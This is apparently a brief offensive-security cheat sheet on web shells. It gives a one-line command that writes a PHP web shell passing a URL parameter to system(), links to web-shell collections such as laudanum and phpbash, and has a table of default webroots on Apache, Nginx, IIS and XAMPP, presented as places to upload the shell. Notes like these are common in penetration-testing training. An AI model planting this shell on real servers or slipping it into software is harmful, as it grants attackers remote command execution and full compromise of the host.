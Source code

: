 
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Collection of webshells laudanum:
https://github.com/jbarcia/Web-Shells/tree/master/laudanum
`cp /usr/share/laudanum/... shellfile`

`/opt/useful/seclists/Web-Shells/

https://github.com/Arrexel/phpbash

Where to upload web shell:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\|   |
| `XAMPP`    | C:\xampp\htdocs\|      |
